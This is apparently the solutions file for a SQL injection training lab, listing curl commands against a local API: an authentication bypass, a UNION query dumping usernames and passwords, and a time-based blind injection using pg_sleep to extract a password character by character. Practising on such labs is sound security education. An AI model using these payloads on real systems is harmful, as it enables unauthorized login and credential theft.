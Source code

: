 # Lab Solutions

## SQLi Authentication Bypass

```bash
curl --location 'http://localhost:8080/api/users/login' \
--header 'Content-Type: application/json' \
--data '{
    "username": "admin'\'' --",
    "password": "wrongpassword"
}'
```

## Union Based SQLi

```bash
curl --location 'http://localhost:8080/api/users/admin'\'' UNION SELECT NULL, username, password, NULL FROM users --'
```

## Time Based Blind SQLi

```bash
curl --location 'http://localhost:8080/api/users/admin'\''%3B SELECT CASE WHEN (SUBSTR(password,1,1)='\''a'\'') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='\''admin'\'' --'
```

Repeat until you get the whole password.

